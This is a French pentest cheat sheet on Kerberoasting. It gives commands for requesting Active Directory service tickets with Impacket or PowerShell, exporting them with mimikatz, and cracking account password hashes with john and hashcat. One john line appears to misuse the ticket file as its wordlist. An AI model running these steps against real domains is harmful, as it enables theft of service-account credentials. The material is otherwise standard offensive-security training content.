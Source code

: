 # Kerberoast

Un utilisateur de l’Active Directory peut demander un TGS pour n’importe quel service. Ainsi, un attaquant peut effectuer des demandes de TGS en indiquant des SPN arbitraires. S'ils existent, un ticket de service (TGS) sera obtenu. Celui-ci contiendra le mot de passe (sous forme de _hash_) du compte exécutant le service. L’attaquant peut, avec cette information, tenter de trouver le mot de passe en clair du compte via une attaque par brute force.

### Récupération des tickets TGS

#### Avec un compte sur le domaine

```
GetUserSPNs.py -request -dc-ip <IP-DC> <domain.local>/<USER> -outputfile impacket_TGS_<IP>.txt
```

Cette commande va recenser tous les comptes utilisateur (non machine) exécutant un service (attribut `ServicePrincipalName` non vide) pour émettre une demande de ticket TGS en leur nom. Ces tickets seront ensuite affichés.

Il n'est pas possible de réaliser de _Pass The Ticket_ avec les TGS.

#### Avec une machine sur le domaine

Il faut commencer par faire une demande de ticket avec un utilisateur _kerberoastable_ (visible dans `bloodhound` par exemple) __ :&#x20;

```
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList '<SPN-USER>' # <SPN-USER> est visible dans le détail d'un utilisateur sur bloodhound.
```

Ensuite, il faut récupérer le ticket. Pour cela, `mimikatz` peut être utilisé :&#x20;

```
# privilege::debug
# kerberos::list /export
```

Grâce à la dernière commande `mimikatz`, il est possible de connaître le fichier contenant le ticket. Il ne reste qu'à casser le mot de passe contenu dans ce dernier :&#x20;

```
kirbi2john <FILE>.kirbi > <FILE>.txt
john --fork=4 --format=krb5tgs --wordlist=<FILE>.txt <FILE>.txt
```

### Cassage des _hashs_ obtenus

```
john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```

Plusieurs format de hash peuvent être obtenu :

* $17 : AES128
* $18 : AES256 (-m 19700 sur hashcat, pas pris en compte par john)
* $23 : RC4-HMAC-MD5 (pris en compte par john)
